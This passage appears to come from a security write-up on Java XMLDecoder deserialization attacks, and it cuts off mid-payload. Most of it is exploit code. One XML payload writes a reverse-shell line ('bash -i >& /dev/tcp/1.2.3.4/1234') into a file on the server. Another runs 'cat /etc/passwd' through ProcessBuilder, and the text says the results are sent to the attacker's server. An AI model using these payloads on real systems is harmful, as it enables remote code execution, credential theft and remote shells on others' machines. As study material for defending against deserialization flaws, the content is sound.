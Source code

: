 We can also call any methods on such objects using `<method>` and `<void>` tags, and therefore:

```xml
<object class = "java.io.PrintWriter">
	<string>reverse.sh</string>
	<method name = "write">
		<string>bash -i >& /dev/tcp/1.2.3.4/1234 0>&1</string>
	</method>
	<method name = "close"/>
</object>
```

Will execute code:

```java
PrintWriter p = new PrintWriter("reverse.sh");
p.write("bash -i >& /dev/tcp/1.2.3.4/1234 0>&1");
p.close();
```

creating a file on the server with given contents.

We can also assign "id" to the objects and then use them as parameters of other objects:

```xml
<void class="java.lang.String" id="someString">
    <string>some data</string>
</void>
<object class = "java.io.PrintWriter">
	<string>reverse.sh</string>
	<method name = "write">
		<object idref="someString"/>
	</method>
	<method name = "close"/>
</object>
```

With such capability we created an exploit which lets us execute any code on target machine, and the results are send with http GET request to our server:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_72-internal" class="java.beans.XMLDecoder">

    <void class="java.lang.String" id="command" method="valueOf">
        <object class="java.lang.StringBuilder" id="builder">
            <void class="java.lang.ProcessBuilder">
                <array class="java.lang.String" length="2">
                    <void index="0">
                        <string>cat</string>
                    </void>
                    <void index="1">
                        <string>/etc/passwd</string>
                    </void>
                </array>
                <void method="start" id="process">
                    <void method="getInputStream" id="stream" />
                </void>
                <void class="java.io.BufferedReader" id="bufferedReader">
                    <object class="java.io.InputStreamReader">
                        <object idref="stream"/>
                    </object>
                    <void method="lines" id="lines">
                        <void method="collect" id="collected">
                            <object class="java.util.stream.Collectors" method="joining">
								<string>      </string>
							</object>
                        </void>
                    </void>
```